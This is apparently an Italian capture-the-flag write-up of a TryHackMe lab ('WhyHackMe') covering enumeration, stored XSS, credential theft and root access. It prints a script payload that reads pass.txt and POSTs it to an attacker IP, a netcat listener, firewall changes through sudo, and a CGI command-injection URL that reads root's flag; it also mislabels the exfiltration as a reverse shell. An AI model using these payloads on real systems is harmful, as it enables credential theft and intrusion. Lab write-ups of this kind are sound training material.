# WhyHackMe

## 1. Riepilogo

Durante l'analisi del sistema target su TryHackMe, sono state identificate e sfruttate diverse vulnerabilità al fine di ottenere l'accesso non autorizzato al sistema e successivamente elevare i privilegi a un livello di root. Di seguito sono riportati i dettagli delle fasi di enumerazione, compromissione e ottenimento dei privilegi.

---

## 2. Enumerazione Iniziale

### 2.1 Scansione delle Porte

È stata eseguita una scansione delle porte tramite Nmap, rivelando le seguenti porte aperte sul sistema target:

```sh
sudo nmap -p- -Ss -T5 -A 10.10.174.223
```



- Porta 21 (FTP)
- Porta 22 (SSH)
- Porta 80 (HTTP)

### 2.2 Analisi del Servizio Web

L'accesso al servizio web sulla porta 80 ha rivelato la presenza di una pagina che punta a "blog.php". L'analisi del blog.php ha evidenziato la presenza di un post dell'utente "admin" e un link per l'accesso tramite nome utente e password.



### 2.3 Enumerazione delle Directory

Gobuster è stato utilizzato per eseguire un'enumerazione delle directory, rivelando l'esistenza di alcune pagine aggiuntive, tra cui "/register.php", che è stata esplorata successivamente.

```sh
gobuster dir -u "http://10.10.174.223:80" -w /usr/share/wordlists/dirb/common.txt
```



### 2.4 Analisi del Servizio FTP

La porta 21 (FTP) è stata esaminata, consentendo l'accesso tramite l'account "anonymous". Un file "update.txt" è stato recuperato, contenente informazioni sull'eliminazione dell'utente "Mike" e un riferimento a "127.0.0.1/dir/pass.txt".



---

## 3. Sfruttamento delle Vulnerabilità

### 3.1 Accesso al File Pass.txt

Attraverso un attacco di tipo Directory Traversal, è stato possibile recuperare il contenuto del file "pass.txt" in cui erano presenti le credenziali dell'utente "jack".

### 3.2 Registrazione e Iniezione di Codice

Sfruttando la pagina "/register.php", è stato possibile registrare un nuovo utente e iniettare codice JavaScript nei commenti della pagina "/blog.php", grazie alla manipolazione del nome utente durante la registrazione.

```js
<script>alert(1)</script>
```




### 3.3 Esecuzione di Reverse Shell

Attraverso l'iniezione di codice, è stato eseguito un attacco di reverse shell, consentendo l'accesso alle credenziali dell'utente "jack".

```javascript
<script>fetch("http://127.0.0.1/dir/pass.txt").then(x => x.text()).then(y => fetch("http://10.14.65.216:9002", {method: "POST", body:y}));</script>
```

```sh
nc -lnvp 9002
```



### 3.4 Accesso come Utente Jack

Con le credenziali ottenute, è stato effettuato il login come "jack" e il file "user.txt" è stato trovato nella home dell'utente.



---

## 4. Scalata di Privilegi

### 4.1 Analisi delle Autorizzazioni Sudo

Dopo l'accesso come "jack", è stata eseguita un'analisi delle autorizzazioni sudo con il comando `sudo -l`, rivelando l'opportunità di eseguire il comando `iptables` senza richiedere la password.

```sh
sudo -l
```



### 4.2 Consentire il Traffico sulla Porta 41312

Utilizzando il comando iptables, è stato consentito il traffico sulla porta 41312.

```sh
sudo iptables -L --line-numbers
sudo iptables -I INPUT 1 # numero della regola da eliminare
sudo iptables -I INPUT -p tcp -m tcp --dport 41312 -j ACCEPT
```


### 4.3 Analisi del Servizio su Porta 41312

È stata eseguita una scansione sulla porta 41312 con Nmap per identificare eventuali servizi in ascolto.

```sh
nmap -p 41312 -A 10.10.174.223
```



### 4.4 Accesso alla Risorsa Web su Porta 41312

L'accesso alla risorsa web su "https://10.10.92.69:41312" ha rivelato la presenza di una pagina Apache2 che richiede la connessione HTTPS.




### 4.5 Analisi del File di Configurazione Apache2

Il file di configurazione di Apache2 ("/etc/apache2/sites-available/000-default.conf") è stato esaminato per identificare ulteriori informazioni sulla configurazione del server. E' stato possibile esportare il file apache.key il quele è stato utilizzato successivamente.

```sh
cat /etc/apache2/sites-available/000-default.conf
```



### 4.6 Enumerazione della directory /opt

Durante la navigazione nel filesystem è stato trovato nella directory /opt un file urgent.txt nel quale si invita a fare un controllo del file capture.pcap



### 4.7 Analisi del Traffico HTTPS con Wireshark

Il pcap trovato è stato importato in Wiresharck ed è stata caricata la key esportata precedentemente.



Il traffico HTTPS ora in chiaro su Wireshark, ha rivelevato un file "/cgi-bin/5UP3r53Cr37.py" con parametri "key", "iv", e "cmd".



### 4.8 Esecuzione di Comandi Arbitrari

Sfruttando la vulnerabilità nel file "/cgi-bin/5UP3r53Cr37.py", è stato possibile eseguire comandi arbitrari. Attraverso l'esecuzione di comandi, è stato ottenuto l'accesso alla root e il file "/root/root.txt" è stato letto.

```sh
https://10.10.92.69:41312/cgi-bin/5UP3r53Cr37.py?key=48pfPHUrj4pmHzrC&iv=VZukhsCo8TlTXORN&cmd=cat /root/root.txt
```



---

Il sistema è stato compromesso con successo, dimostrando la presenza di vulnerabilità critiche e la necessità di implementare misure di sicurezza aggiuntive per prevenire tali attacchi.